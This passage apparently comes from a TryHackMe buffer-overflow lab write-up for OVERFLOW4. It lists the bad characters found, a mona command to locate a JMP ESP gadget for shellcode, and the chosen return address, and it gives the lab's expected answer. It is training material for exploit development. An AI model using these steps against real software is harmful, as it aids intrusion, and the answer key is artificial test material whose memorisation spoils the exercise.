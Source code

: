 ![Badchars final](/images/THM/buffprep/of4/Captura7.PNG)

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW4?
>Answer: \x00,\xa9,\xcd,\xd4

##### Finding Right Module

Time to find the jump point for the execution of our shellcode.

```sh
!mona jmp -r esp -cpb "\x00,\xa9,\xcd,\xd4"
```

We can use the first one, with the vale **625011af**.
